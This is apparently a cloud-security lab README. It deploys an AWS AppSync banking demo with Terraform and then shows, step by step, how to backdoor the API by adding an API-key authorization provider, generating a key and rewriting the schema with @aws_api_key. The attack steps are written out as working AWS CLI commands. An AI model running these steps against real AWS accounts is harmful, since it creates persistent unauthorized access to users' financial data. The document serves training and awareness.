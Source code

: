 # AppSync - Backdooring with API Keys

## Overview

This setup deploys an AWS AppSync service, utilizing AWS IAM as the default authentication mode and featuring an additional endpoint authenticated via AWS Cognito. The scenario, inspired by an AWS tutorial [DynamoDB Transaction resolvers](https://docs.aws.amazon.com/appsync/latest/devguide/tutorial-dynamodb-transact-js.html), simulates specific banking functionalities

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```
4. **Create Cognito users**: Access the AWS console, go to AWS Cognito and create a few users.


5. **Populate data in DynamoDB**:

Acces the AWS console, go to AWS AppSync and using the query option, execute the following mutation. Making sure to use the sub from Cognito as account name:

```
mutation populateAccounts {
  populateAccounts (
    savingAccounts: [
      {accountNumber: "SUB_FROM_COGNITO", username: "Tom", balance: 100},
      {accountNumber: "SUB_FROM_COGNITO", username: "Amy", balance: 90},
      {accountNumber: "SUB_FROM_COGNITO", username: "Lily", balance: 80},
    ]
    checkingAccounts: [
      {accountNumber: "SUB_FROM_COGNITO", username: "Tom", balance: 70},
      {accountNumber: "SUB_FROM_COGNITO", username: "Amy", balance: 60},
      {accountNumber: "SUB_FROM_COGNITO", username: "Lily", balance: 50},
    ]) {
    savingAccounts {
      accountNumber
    }
    checkingAccounts {
      accountNumber
    }
  }
}
```


## Attacking the Infrastructure

Add a new authorization provider, making sure to keep the existing ones. In our specific scenario, we need to keep AWS_IAM as the default authentication type and add API_KEY as an extra authentication provider, making sure we keep the configuration from the Cognito provider.

```
aws appsync update-graphql-api --api-id API_ID --name API_NAME --authentication-type AWS_IAM --additional-authentication-providers '[{"authenticationType": "AMAZON_COGNITO_USER_POOLS", "userPoolConfig": {"userPoolId": "USER_POOL_ID", "awsRegion": "us-east-1", "appIdClientRegex": "APP_ID_CLIENT_REGEX" }},{"authenticationType":"API_KEY"}]'
```

2. Generate an API Key

```
aws appsync create-api-key --api-id API_ID
```

3. Modify the schema and add the directive @aws_api_key, ensuring that the default directive @aws_iam is added when needed to avoid breaking the application. To do this, download the current schema:

```
aws appsync get-introspection-schema --api-id API_ID --format SDL schema.graphql
```

4. Edit the schema and then encode it in base64
```
base64 schema.graphql > schema_base64.txt
```

5. Lastly, add the new schema

```
aws appsync start-schema-creation --api-id API_ID --definition file://schema_base64.txt
```

## Understanding the Attack

Upon successfully adding an API key to the AWS AppSync service, an attacker gains a persistent and unauthorized entry point, allowing them to request data or perform modifications by utilizing the new API key in their requests. This not only enables the extraction of existing data within the API but also potentially allows access to data from new users in the future, maintaining an ongoing threat until the illicit API key is identified and removed. 

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.
